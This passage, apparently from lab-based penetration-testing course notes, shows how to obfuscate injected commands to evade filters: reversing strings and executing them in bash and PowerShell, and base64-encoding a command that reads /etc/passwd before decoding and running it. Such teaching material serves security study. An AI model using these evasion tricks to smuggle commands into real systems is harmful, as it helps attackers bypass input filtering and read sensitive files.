 So we can create a environment variable:

```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The same can be applied in `Windows`

```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

### Encoded Commands

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding).

```shell-session
ElFelixi0@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

ElFelixi0@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
